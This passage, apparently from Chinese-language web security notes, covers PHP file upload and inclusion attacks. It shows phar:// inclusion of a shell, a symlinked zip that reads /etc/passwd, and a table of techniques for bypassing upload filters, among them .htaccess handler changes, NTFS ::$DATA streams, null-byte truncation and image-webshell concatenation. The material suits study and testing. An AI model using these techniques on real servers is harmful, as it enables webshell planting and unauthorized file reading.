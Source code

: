 ```{.php}
  callphar.php
  <?php
      include 'phar://my.phar/shell.php';
  ?>
  //访问callphar.php即可调用shell.php
  //注意：phar文件不受文件名限制，即my.phar可以任意的重命名为aaa.bbb
  callphar.php
  <?php
      include 'phar://aaa.bbb/shell.php';
  ?>
```

##### 五、 unlink 绕过

我们首先构造一个指向 /etc/passwd 的软链接文件，看看能不能成功
root@ubuntu:~# ln -s /etc/passwd test

看一下软链接的指向
lrwxrwxrwx 1 root root 11 Nov 11 06:45 test -> /etc/passwd

现在我们把这个文件进行压缩
root@ubuntu:~# zip -y test.zip test

上传然后 submit，借助文件包含漏洞，可任意读取相关文件，即使有open_basedir的限制。

##### 六、Cookbook

|方式                |                      利用方式                            |
|--------------------|---------------------------------------------------------|
|前端JS检测           |直接禁用JS，或者burp改包等等                               |
|只验证Content-type   |抓包改Content-Type，修改为image/jpeg、image/png、image/gif |
|黑名单绕过           | 不允许上传.asp,.aspx,.php,.jsp后缀文件，但是可以上传其他任意后缀 .php .phtml .phps .php5 .pht。前提是apache的httpd.conf中有如下配置代码<br>```AddType application/x-httpd-php .php .phtml .phps .php5 .pht```<br>或者上传.htaccess文件<br>需要：1.mod_rewrite模块开启。2.AllowOverride All<br>文件内容<br>```<FilesMatch "shell.jpg">SetHandler application/x-httpd-php</FilesMatch>```<br>此时上传shell.jpg文件即可被当作php来解析。<br>或者<br>AddType application/x-httpd-php .jpg
|大小写绕过           | 上传Php来绕过黑名单后缀。(在Linux没有特殊配置的情况下，这种情况只有win可以，因为win会忽略大小写|
|空格绕过             | Win下xx.jpg[空格] 或xx.jpg.这两类文件都是不允许存在的，若这样命名，windows会默认除去空格或点。<br>此处会删除末尾的点，但是没有去掉末尾的空格，因此上传一个.php空格文件即可|
|点绕过               | 没有去除末尾的点，上传.php.绕过|
|::$DATA绕过          | (仅限windows)使用NTFS ADS 文件流绕过的方式，假设上传的文件内容为<?php phpinfo(); ?><br>以下是上传时候会出现的现象：<br>Test.php:a.jpg 生成Test.php 文件内容为空<br>Test.php::$DATA 生成test.php 文件内容为<?php phpinfo(); ?><br>Test.php::$INDEX_ALLOCATION 生成test.php文件夹<br>Test.php::$DATA\0.jpg 生成0.jpg 文件内容为<?php phpinfo(); ?><br>Test.php::$DATA\aaa.jpg 生成aaa.jpg 文件内容为<?php phpinfo(); ?><br><br>PS: 上传test.php:a.jpg的时候其实是在服务器上正常生成了一个数据流文件，可以通过notepad test.php:a.jpg查看内容，而test.php为空也是正常的。
|.空格.绕过          | move_upload_file的文件名直接为用户上传的文件名，我们可控。且会删除文件名末尾的点，因此我们可以结用.php.空格.来绕过。windows会忽略文件末尾的.和空格
| /.绕过             | 用move_uploaded_file会忽略/.的trick绕过                   |
|双写绕过            | 敏感后缀替换为空，双写.pphphp绕过即可                       |
|00截断              | 影响版本：5.4.x<= 5.4.39, 5.5.x<= 5.5.23, 5.6.x <= 5.6.7 <br> exp：move_uploaded_file($_FILES['name']['tmp_name'],"/file.php\x00.jpg");<br>源码中move_uploaded_file中的save_path可控，因此00截断即可
|图片马上传          | copy smi1e.jpg /b + shell.php /a shell.jpg               |
|二次渲染绕过        | 绕过方法可以参考先知的文章，写的很详细：https://xz.aliyun.com/t/2657<br>jpg和png很麻烦，gif只需要找到渲染前后没有变化的位置,然后将php代码写进去,就可以了。
|条件竞争            | 文件先经过保存，然后判断后缀名是否在白名单中，如果不在则删除，此时可以利用条件竞争在保存文件后删除文件前来执行php文件
|数组+/.绕过         | 利用reset、end函数特性以及文件数组来绕过相关检测             |
